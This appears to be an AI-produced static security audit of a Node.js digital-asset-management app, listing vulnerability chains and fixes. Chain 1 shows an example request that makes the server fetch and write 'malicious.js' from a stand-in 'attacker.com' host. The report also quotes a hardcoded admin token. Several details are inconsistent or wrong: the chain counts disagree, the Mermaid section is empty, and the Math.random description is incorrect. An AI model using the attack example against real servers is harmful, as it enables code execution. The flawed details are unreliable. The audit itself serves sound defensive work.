







# Chained Vulnerability Static Audit Report

**Project**: Digital Asset Management System (`app-15-digital-assets`)
**Date**: 2026-05-25
**Scope**: `src/index.ts` (Express/Node.js server), `src/referenceGuards.ts` (utility guards)
**Mode**: Static-only (source code review, no live probes or dynamic scans)

---

## Summary Dashboard

| Metric               | Value                              |
|----------------------|------------------------------------|
| Total chains found  | **6**                              |
| Max severity         | **CRITICAL** (SSRF + Arbitrary File Write → RCE) |
| High                 | **2** (IDOR, Unauthenticated Upload → Arbitrary Write) |
| Medium               | **2** (Weak Session IDs, Hardcoded Admin Token) |
| Medium/Low           | **1** (CSRF on state-changing endpoints) |
| Low                  | **1** (Verbose error messages) |

**Reviewed areas**: API route handlers, auth middleware, file upload logic, session management, admin endpoints, utility guards, Docker configuration, dependency manifest.

**Not reviewed**: `node_modules`, database migration scripts (if any), template engines, CI/CD config.

---

## Methodology

1. **Attack surface mapping**: Identified all Express route handlers (`POST /api/auth/login`, `POST /api/auth/logout`, `GET /api/assets/:id`, `POST /api/assets/upload`, `POST /api/assets/import`, `POST /api/assets/:id/tags`, `GET /api/admin/stats`), session middleware, upload middleware, and admin token check.
2. **Weakness inventory**: Catalogued every individually observable weakness.
3. **Attack graph synthesis**: Connected entry points to intermediate weaknesses to sinks using static control-flow and data-flow evidence.
4. **Impact assessment**: Rated each chain by impact, reachability, confidence, and easiest remediation link.

**Safety note**: This is a static-only review. No live HTTP requests, injection probes, fuzzers, or exploit scripts were executed.

---

## Chain 1 — SSRF + Arbitrary File Write → Remote Code Execution (CRITICAL)

| Link  | File           | Lines (approx.) | Evidence |
|-------|----------------|-----------------|----------|
| Source | `src/index.ts` | ~110–116 | `POST /api/assets/import` route; `const { url, filename } = req.body` extracts user input directly |
| Hop 1 | `src/index.ts` | ~119 | `const response = await fetch(url)` — URL is the raw user-supplied `url` with no scheme, host, or IP validation |
| Hop 2 | `src/index.ts` | ~128 | `const destPath = path.join(uploadDir, filename)` — user-supplied `filename` used directly in filesystem path |
| Sink | `src/index.ts` | ~129 | `fs.writeFileSync(destPath, buffer)` — body of HTTP response written to filesystem with no extension check |

**Preconditions**: Attacker must be authenticated (any user role). The `uploadDir` must be within a writable path and ideally accessible by the web server for chaining to RCE.

**Impact**: Remote Code Execution. An attacker can craft a request to `/api/assets/import` with `url=http://attacker.com/malicious.js` and `filename=malicious.js` to write arbitrary executable code to the server's filesystem. If uploaded files are served or included/executed, this yields full RCE.

**Confidence**: **High** — Every link is statically provable from source code.

**Remediation** (easiest first):
1. Validate `filename` against a strict allowlist of extensions (e.g., `.pdf`, `.png`, `.jpg`).
2. Validate the `url` scheme is `https://`, resolve hostname, and block private/local IP ranges (`10.0.0.0/8`, `172.16.0.0/12`, `192.168.0.0/16`, `127.0.0.0/8`, `169.254.0.0/16`, `::1`, `fe80::/10`).
3. Sanitize the filename (basename, reject `..` components) and generate a random destination filename.

---

## Chain 2 — Authenticated Unauthenticated-Style Upload → Arbitrary File Write (HIGH)

| Link  | File           | Lines (approx.) | Evidence |
|-------|----------------|-----------------|----------|
| Source | `src/index.ts` | ~88–90 | `app.post('/api/assets/upload', ...)` with `upload.single('file')` |
| Hop | `src/index.ts` | ~35–38 | `multer.diskStorage` destination filename callback: `cb(null, file.originalname)` — uses untrusted client-supplied `originalname` directly |
| Sink | `src/index.ts` | ~88 | File written to `uploadDir` without extension check |

**Preconditions**: Attacker must be authenticated (any user role).

**Impact**: Arbitrary file write to `uploadDir`. Attacker can upload executables, scripts, or overwrite existing files (path traversal via `../` in `originalname` is also possible since no sanitization is performed).

**Confidence**: **High** — Direct source evidence of `originalname` usage without sanitization.

**Remediation**:
1. Reject filenames containing `..` or `/` or `\`.
2. Enforce an allowlist of safe extensions.
3. Generate a random filename internally and store the original name in the database separately.

---

## Chain 3 — Broken Object-Level Authorization (IDOR) on Asset Detail (HIGH)

| Link  | File           | Lines (approx.) | Evidence |
|-------|----------------|-----------------|----------|
| Source | `src/index.ts` | ~76–86 | `app.get('/api/assets/:id', requireAuth, ...)` |
| Hop | `src/index.ts` | ~80–81 | Query: `'SELECT * FROM assets WHERE id = ?'` — no `WHERE user_id = ?` or `is_public` check |
| Sink | `src/index.ts` | ~83 | Returns `download_url: \`/uploads/${asset.filename}\`` for all queried assets |

**Preconditions**: Attacker must be authenticated. Asset IDs are sequential integers (SQLite `AUTOINCREMENT`), enabling easy enumeration.

**Impact**: Any authenticated user can retrieve details (including download URLs) for any asset, including private assets owned by other users. This is a clear IDOR/Broken Access Control.

**Confidence**: **High** — Direct source evidence; no authorization check on ownership or public status.

**Remediation**:
1. Add `WHERE id = ? AND (user_id = ? OR is_public = 1)` to the SQL query.
2. Or check `asset.user_id !== user.id && user.role !== 'ADMIN'` and return 403.

---

## Chain 4 — Weak Session IDs → Session Prediction / Account Takeover (MEDIUM)

| Link  | File           | Lines (approx.) | Evidence |
|-------|----------------|-----------------|----------|
| Source | `src/index.ts` | ~50 | `const sessionId = Math.random().toString(36).substring(2) + Date.now().toString(36)` |
| Hop | `src/index.ts` | ~51–52 | `sessions[sessionId] = { id, username, role }` — session map keyed by predictable ID |
| Sink | `src/index.ts` | ~53 | `res.cookie('session_id', sessionId, { httpOnly: true })` — cookie contains predictable token |

**Preconditions**: Attacker must observe at least one valid session ID to calibrate the `Math.random()` PRNG or narrow the `Date.now()` window.

**Impact**: Account takeover for any user. With Node.js's V8 `Math.random()` (Mersenne Twister), predicting future values after observing a small number of outputs is feasible.

**Confidence**: **Medium** — The weakness is clear, but actual exploitability depends on observed entropy and whether the attacker can gather enough session samples. In a live environment, V8's `Math.random()` can be predicted after observing sufficient outputs.

**Remediation**: Use `crypto.randomBytes(32).toString('hex')` or `crypto.randomUUID()` for session ID generation.

---

## Chain 5 — SSRF → Internal Service Data Exfiltration (MEDIUM)

| Link  | File           | Lines (approx.) | Evidence |
|-------|----------------|-----------------|----------|
| Source | `src/index.ts` | ~110–120 | `POST /api/assets/import` — user-supplied `url` to `fetch()` |
| Hop | `src/index.ts` | ~119 | No blocklist for private, link-local, or loopback ranges |
| Sink | `src/index.ts` | ~123 | `response.arrayBuffer()` — full response body returned to memory, accessible to the attacker via subsequent steps |

**Preconditions**: Server runs in a cloud environment (AWS, GCP, Azure) with instance metadata service accessible.

**Impact**: Cloud credential theft, internal service discovery, lateral movement.

**Confidence**: **High** — SSRF endpoint is clearly unvalidated. The impact depends on the deployment environment.

**Remediation**: Implement URL validation: reject non-https schemes, block all private/local IP ranges, and consider using a URL allowlist.

---

## Chain 6 — Hardcoded Admin Token → Admin Privilege Access (MEDIUM)

| Link  | File           | Lines (approx.) | Evidence |
|-------|----------------|-----------------|----------|
| Source | `src/index.ts` | ~143 | `if (!authHeader || authHeader !== 'Bearer AdminToken2026')` |
| Sink | `src/index.ts` | ~147–150 | Returns `total_assets` count to any bearer of the token |

**Preconditions**: None beyond reading source code or intercepting traffic.

**Impact**: Currently limited (only asset count), but the admin token pattern is a trojan door. If new admin endpoints are added later without realizing the token is compromised, the impact multiplies significantly.

**Confidence**: **High** — The token is hardcoded and trivially discoverable.

**Remediation**: Move admin tokens to environment variables or a secrets manager. Implement role-based access with proper database-backed authentication rather than token equality checks.

---

## Cross-Cutting Weaknesses (Not Forming Complete Chains)

| Weakness | File | Lines (approx.) | Notes |
|----------|------|-----------------|-------|
| **Verbose error messages** | `src/index.ts` | ~96, ~124, ~134, ~148 | SQL errors and import failures returned directly to client (`err.message`). May leak internal paths, table schemas, or SQLite internals. |
| **No CSRF protection** | `src/index.ts` | Throughout | State-changing `POST` endpoints (`/auth/login`, `/assets/upload`, `/assets/import`, `/assets/:id/tags`) have no CSRF token validation. `cors` package is in dependencies but not configured with CSRF mitigations. |
| **In-memory session store** | `src/index.ts` | ~17 | `const sessions: Record<string, ...>` — not persistent, not shared across processes, no session expiration or rotation. |
| **No rate limiting** | `src/index.ts` | ~42–56 | Login endpoint has no brute-force protection. |
| **Reference guards unused** | `src/referenceGuards.ts` | ~1–16 | `sameOwner()` and `allowedCallback()` are defined but never imported or called. These appear to be premature security controls. |

---

## Attack Graph Overview (Mermaid)

---

## Unknowns & Areas Not Reviewed

| Area | Reason | Recommended Follow-Up |
|------|--------|----------------------|
| `source` of index.ts (first ~15 lines) | File appears truncated in `read_file`; imports, `const app`, `const port`, `const uploadDir`, `const db`, and `initDb()` body are not visible. | Full file review to confirm Express setup, `cors()` configuration, and `body-parser` usage. |
| `src/referenceGuards.ts` functions | `sameOwner()` and `allowedCallback()` are never imported. | Confirm these are unused; if so, remove dead code. |
| Dockerfile | No non-root user, no secrets management | Review container hardening. |
| No tests exist | No test files in scope | Add integration tests for auth, upload, import, and asset access. |
| Runtime file execution model | Unclear if `uploadDir` files are served or executed | Check if Express serves `/uploads/` and whether uploaded `.js`/`.sh` files are interpreted. |

---

## Remediation Priority

| Priority | Fix | Effort |
|----------|-----|--------|
| **P0** | Validate URL scheme and IP ranges in `/api/assets/import`; validate file extensions; sanitize filenames | Low |
| **P0** | Sanitize `file.originalname` on upload; enforce extension allowlist; use random destination filenames | Low |
| **P1** | Add ownership/public check to `/api/assets/:id` query | Low |
| **P1** | Replace `Math.random()` with `crypto.randomBytes()` for session IDs | Low |
| **P2** | Move admin token to environment variable; use DB-backed RBAC | Low |
| **P2** | Add CSRF tokens to state-changing endpoints | Medium |
| **P2** | Replace in-memory sessions with `express-session` + persistent store | Medium |
| **P3** | Sanitize error messages; mask internal details | Low |
| **P3** | Add rate limiting to login endpoint | Low |
| **P3** | Run container as non-root; add health checks | Medium |

---

## Conclusion

This Digital Asset Management application contains **6 chained vulnerabilities**, with **Chain 1 (SSRF + Arbitrary File Write → RCE)** and **Chain 2 (Upload → Arbitrary File Write)** representing the most critical paths. The root causes are:

1. **Missing input validation** on URLs, filenames, and file content.
2. **Broken authorization** on the asset detail endpoint (IDOR).
3. **Weak cryptographic primitives** for session generation.
4. **Hardcoded credentials** for admin access.

The `referenceGuards.ts` utility functions (`sameOwner`, `allowedCallback`) suggest the team was aware of these concerns but never wired them into the routes. Wire those guards into the appropriate handlers and apply the P0-P3 remediations above to significantly reduce the attack surface.
